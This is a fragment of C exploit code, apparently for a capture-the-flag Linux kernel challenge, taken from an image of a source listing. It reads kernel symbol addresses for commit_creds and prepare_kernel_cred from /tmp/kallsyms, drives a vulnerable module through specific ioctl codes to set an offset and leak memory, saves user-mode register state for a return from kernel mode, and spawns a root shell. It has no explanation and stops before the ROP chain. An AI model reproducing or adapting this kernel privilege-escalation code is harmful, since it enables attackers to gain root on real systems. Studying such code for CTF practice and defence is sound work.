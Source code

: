     unsigned long long commit_cred=0;
    unsigned long long prepare_kernel_cred=0;

    void get_shell(){
        if(!getuid()){
            printf("get root!\n");
            system("/bin/sh");
        }else{
            printf("get shell error!\n");
        }
        exit(0);
    }

    void get_address(){
        FILE * fd = fopen("/tmp/kallsyms","r");
        if(fd==NULL){
            printf("error in open file kallsyms!\n");
        }
        unsigned long long addr;
        char type[0x10];
        char func_name[0x100];
        while (fscanf(fd,"%llx%s%s",&addr,type,func_name)!=EOF)
        {
            //printf("%llx %s %s\n",addr,type,func_name);
            if(commit_cred&&prepare_kernel_cred)
                break;;
            if(!strcmp(func_name,"prepare_kernel_cred"))
                prepare_kernel_cred=addr;
            if(!strcmp(func_name,"commit_creds"))
                commit_cred=addr;
        }
        printf("commit_addr:%p\n",commit_cred);
        printf("prepare_kernel_cred:%p\n",prepare_kernel_cred);
        return;
    }

    void set_off(int fd,long long len){
        printf("set off start!\n");
        ioctl(fd,0x6677889C,len);
    }

    void core_read(int fd,char * buffer){
        printf("read func start!\n");
        ioctl(fd,0x6677889B,buffer);
    }

    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
    }
